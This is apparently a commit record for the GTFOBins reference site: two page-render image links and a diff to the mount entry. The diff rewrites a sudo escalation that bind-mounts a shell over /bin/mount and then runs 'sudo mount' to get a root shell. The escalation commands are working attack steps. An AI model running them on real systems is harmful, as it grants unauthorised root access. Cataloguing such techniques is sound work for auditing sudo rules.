

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/mount.md, in a window 1280 px wide. Shown: the top 396 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Improve mount

```diff
--- a/_gtfobins/mount.md
+++ b/_gtfobins/mount.md
@@ -1,8 +1,8 @@
 ---
 functions:
   sudo-enabled:
-  - description: bind mount bash to the mount binary, as mount is sudo enabled.
+  - description: Exploit the fact that `mount` can be executed via `sudo` to *replace* the `mount` binary with a shell.
     code: |
-      sudo mount -o bind /bin/bash /bin/mount
+      sudo mount -o bind /bin/sh /bin/mount
       sudo mount
 ---
```
